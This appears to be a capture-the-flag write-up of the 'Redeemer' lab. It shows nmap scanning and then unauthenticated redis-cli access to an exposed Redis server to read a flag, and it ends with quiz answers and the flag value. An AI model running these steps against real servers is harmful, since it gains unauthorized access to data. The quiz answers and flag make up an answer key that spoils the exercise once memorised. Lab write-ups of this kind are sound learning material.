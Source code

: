 ## Redeemer

Somehow nmap wouldn't show me any results, even tough I used the exact same command as the write up: `nmap -p- -sV 10.129.25.57` 

So I decided to use the `-help` option to find what the `-p` option does. This option lets you select what ports to scan, so I just simply let it scan all ports with `nmap -p1-65535 -sV 10.129.25.57` 

```
PORT     	STATE 	SERVICE 	VERSION
6379/tcp 	open  	redis   	Redis key-value store 5.0.7
```

Continue on with the next step, using the `-h` option to connect to the host: `redis-cli -h 10.129.25.57`   

Used the `info` command to get the redis_version and Database information:

```
10.129.25.57:6379> info
# Server
redis_version:5.0.7

~snip~

# Keyspace
db0:keys=4,expires=0,avg_ttl=0

```

Selected Database 0 with: `10.129.25.57:6379> select 0`

Continued by requesting all keys in the database: `10.129.25.57:6379> keys *`

```
1) "flag"
2) "temp"
3) "numb"
4) "stor"
```

Found the flag and opened it with: `10.129.25.57:6379> get flag` 

```
"03e1d2b376c37ab3f5319922053953eb"
```

## Screenshots

![pwnd Redeemer.png](..%2Fmedia%2Fpwnd%20Redeemer.png)

## Quiz Questions

Which TCP port is open on the machine? 
- 6379

Which service is running on the port that is open on the machine?
- Redis 

What type of database is Redis?
- In-memory Database

Which command-line utility is used to interact with the Redis server?
- Redis CLI

Which flag is used with the Redis command-line utility to specify the hostname? 
- -h

Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?
- info

What is the version of the Redis server being used on the target machine?
- 5.0.7

Which command is used to select the desired database in Redis?
- select

How many keys are present inside the database with index 0?
- 4

Which command is used to obtain all the keys in a database? 
- keys *

Root flag
- 03e1d2b376c37ab3f5319922053953eb
